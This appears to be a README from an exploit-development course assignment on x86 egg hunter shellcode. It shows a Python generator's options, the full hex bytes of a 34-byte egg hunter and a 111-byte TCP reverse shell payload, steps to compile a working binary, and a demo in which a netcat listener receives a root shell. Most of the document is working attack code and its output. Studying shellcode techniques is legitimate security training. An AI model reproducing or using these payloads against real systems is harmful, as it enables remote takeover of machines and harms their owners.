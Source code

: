 # Assignment 3: Egg hunter shellcode

The egg hunter shellcode used in this assignment is based on the paper [Safely Searching Process Virtual Address Space](www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by Skape.

To view the argument options for egg_hunter_x86.py:

```bash
python3 egg_hunter_x86.py -h
usage: egg_hunter_x86.py [-h] [-t {access,sigaction}] [-x {bind,reverse}] [-l LHOST]
                         [-p {0..65535}] [-s]

Generate x86 egg hunter shellcode.

optional arguments:
  -h, --help            show this help message and exit
  -t {access,sigaction}, --technique {access,sigaction}
                        Technique to use for egghunter.
  -x {bind,reverse}, --payload {bind,reverse}
                        Type of payload to execute
  -l LHOST, --lhost LHOST
                        Remote IPv4 address for TCP reverse shell to connect to.
  -p {0..65535}, --lport {0..65535}
                        Remote port for TCP reverse shell to connect to.
  -s, --shellcode       Output shellcode only
```

To generate the raw shellcode for a given payload type e.g. a reverse shell using the **access()** syscall, do the following:

```bash
python3 egg_hunter_x86.py -t access -x reverse -p 4444 -l 127.0.0.1 --shellcode

[*] Generating shellcode for x86 egg hunter using access technique
[*] Egg hunter length: 34 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"

[*] Generating shellcode for x86 TCP reverse shell on 127.0.0.1:4444
[*] Shellcode length: 111 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x80\xff\xff\xfe\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

To generate a working binary with your chosen payload and technique, omit the `--shellcode` option:

```bash
python3 egg_hunter_x86.py -t access -x reverse -p 4444 -l 127.0.0.1            

[*] Compiled shellcode for x86 egg hunter
[*] Technique: access(2)
[*] Payload: reverse shell
[*] Test by starting a listener with nc -nlvp 4444 and executing ./egg_hunter_reverse_x86
```

The payload can then be tested as indicated in the printed output:

```bash
./egg_hunter_reverse_x86
```

```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34636
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
